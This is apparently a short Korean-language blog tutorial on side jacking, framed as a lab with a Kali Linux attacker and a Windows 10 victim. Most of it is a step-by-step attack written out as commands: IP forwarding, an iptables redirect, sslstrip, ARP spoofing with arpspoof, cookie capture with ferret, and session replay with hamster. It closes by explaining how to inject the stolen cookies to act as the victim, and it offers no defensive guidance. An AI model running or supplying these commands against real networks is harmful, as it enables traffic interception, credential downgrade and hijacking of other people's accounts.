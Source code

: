 #  Side Jacking



01 / 10 , 2019  Jinyan 김상민



Side Jacking 에 대해 이야기해 보려고 합니다.



> 공격자 : Kali Linux
>
> 피해자 : Windows 10



Side Jacking



은 세션하이재킹으로도 지칭할 수 있는데, HTTP 연결의 트래픽(서버의 데이터)을 가로채 쿠키를 탈취하여 사용자(피해자)인척 인증하는 과정 및 해킹을 의미합니다. 

HTTP는 무상태 프로토콜이므로 Web에서는 모든 페이지에서 사용자 이름과 패스워드 없이 세션을 유지하는 방법이 필요한데, 처음 인증 후에는 전체 세션에 대응하는 쿠키를 발급하여 인증 수단으로 사용합니다. 이런 쿠키를 탈취하게 되면 해당 사용자(피해자)인척 페이지를 돌아다닐 수 있게 됩니다.



> 공격자 시점 : Kali Linux (터미널)



첫번째. IP 포워딩을 해줍니다. (외부에서 ipv4에 들어오는 요청건에 대해서는 무조건 패스)

```
echo "1"> /proc/sys/net/ipv4/ip_forward
```



두번째. SSLstrip 공격을 하기위해 IP Table을 수정해줍니다.

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 1000
```



세번째. SSLstrip 공격을 합니다.

```
sslstrip -f -a -k -l 1000 -w /root/out.txt &
```



네번째. ARP 스푸핑을 공격을 해줍니다. (피해자의 통신을 확보하기 위해서)

```
arpspoof -i eth0 -t 192.xxx.x.xx(interface ip) 192.xxx.xxx.x.x(target ip) 
```



다섯번째. ferret tool을 실행해줍니다. (피해자의 통신의 쿠기를 탈취)

```
ferret i -eth0
```



여섯번째. hamster tool을 실행해줍니다. (Side Jacking의 도구로 프록시 서버를 이용)

```
hamster
```



설정은 끝났습니다. 이후에 피해자가 여러 웹사이트를 방문하면 hamster.txt파일이 업데이트 되는데 파일안 쿠키 를 이용하여 웹 개발자에 주입하면 피해자가 사용하고 있는 웹사이트를 이용할 수 있게 됩니다.